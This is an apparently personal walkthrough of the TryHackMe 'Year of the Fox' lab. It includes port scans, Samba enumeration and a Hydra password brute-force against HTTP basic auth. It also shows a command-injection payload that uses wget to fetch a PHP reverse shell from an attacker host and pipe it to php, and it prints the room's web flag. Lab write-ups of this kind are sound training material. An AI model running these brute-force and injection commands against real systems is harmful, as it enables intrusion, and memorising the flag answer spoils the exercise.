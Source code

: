 # Year of the Fox

## Overview

Don't underestimate the sly old fox...

Room link: https://tryhackme.com/room/yotf
Difficulty: **Hard**

## Walkthrough

Starting an initial Nmap scan:

```console
$ nmap -p- -T4 10.10.227.75 -oN scans/initial.nmap
Starting Nmap 7.94 ( https://nmap.org ) at 2024-01-01 16:54 GMT
Nmap scan report for 10.10.227.75
Host is up (0.035s latency).
Not shown: 65532 closed tcp ports (reset)
PORT    STATE SERVICE
80/tcp  open  http
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

Nmap done: 1 IP address (1 host up) scanned in 39.39 seconds
```

Running a specific port scan:

```console
$ sudo nmap -p 80,139,445 -T4 -A 10.10.227.75 -oN scans/open_ports.nmap
Starting Nmap 7.94 ( https://nmap.org ) at 2024-01-01 16:56 GMT
Nmap scan report for 10.10.227.75
Host is up (0.069s latency).

PORT    STATE SERVICE     VERSION
80/tcp  open  http        Apache httpd 2.4.29
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=You want in? Gotta guess the password!
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: 401 Unauthorized
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: YEAROFTHEFOX)
445/tcp open  ����      V      Samba smbd 4.7.6-Ubuntu (workgroup: YEAROFTHEFOX)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (95%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Adtran 424RG FTTH gateway (93%), Linux 2.6.32 (93%), Linux 2.6.39 - 3.2 (93%), Linux 3.1 - 3.2 (93%), Linux 3.11 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Hosts: year-of-the-fox.lan, YEAR-OF-THE-FOX

Host script results:
| smb2-time: 
|   date: 2024-01-01T16:56:20
|_  start_date: N/A
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_clock-skew: mean: 0s, deviation: 1s, median: -1s
|_nbstat: NetBIOS name: YEAR-OF-THE-FOX, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: year-of-the-fox
|   NetBIOS computer name: YEAR-OF-THE-FOX\x00
|   Domain name: lan
|   FQDN: year-of-the-fox.lan
|_  System time: 2024-01-01T16:56:20+00:00
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   33.14 ms 10.8.0.1
2   99.35 ms 10.10.227.75

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.88 seconds
```

Navigating to the website, we are asked to authenticate and given a `HTTP 401 Unauthorized` error. As we don't have any usernames, we need must enumerate the host further. Running `enum4linux` provides more insight into the shares on the host and the usernames:

![Year of the Fox - enum4linux shares](/images/yotf_enum4linux_shares.png)

![Year of the Fox - enum4linux users](/images/yotf_enum4linux_users.png)

With these two users we can bruteforce the authentication page with Hydra. Note, that each time the machine reboots, the password for the user changes

```console
$ hydra -L users.lst -P /usr/share/wordlists/rockyou.txt 10.10.195.56 http-head / 
```

![Year of the Fox - rascal Credentials](/images/yotf_rascal_creds.png)

Logging in with these credentials shows a search interface that lists the contents of directories:

![Year of the Fox - Rascal's Search System](/images/yotf_rascal_search_system.png)

![Year of the Fox - Directory Listing](/images/yotf_directory_listing.png)

We can bypass the client-side filtering by using BurpSuite.

After some fuzzing of special characters, we see `\` is still valid and is not removed by the filter. We can therefore upload a [reverse shell](https://pentestmonkey.net/tools/web-shells/php-reverse-shell) onto the host and catch a callback via Netcat:

```console
# Attacker Machine
$ python3 -m http.server <PORT>
```

```
\"; wget -O - -q http://<ATTACKER_IP>:<PORT>/revshell.php | php; \"
```

Once we make the above request via BurpSuite, we obtain a callback on our Netcat listener:

![Year of the Fox - Netcat Callback](/images/yotf_nc_callback.png)

Navigating through the filesystem, we can obtain the web flag:

![Year of the Fox - Web Flag](/images/yotf_web_flag.png)

-----

1. What is the **web** flag?

```
THM{Nzg2ZWQwYWUwN2UwOTU3NDY5ZjVmYTYw}
```

2. What is the **user** flag?

```

```

3. What is the **root** flag?

```

```
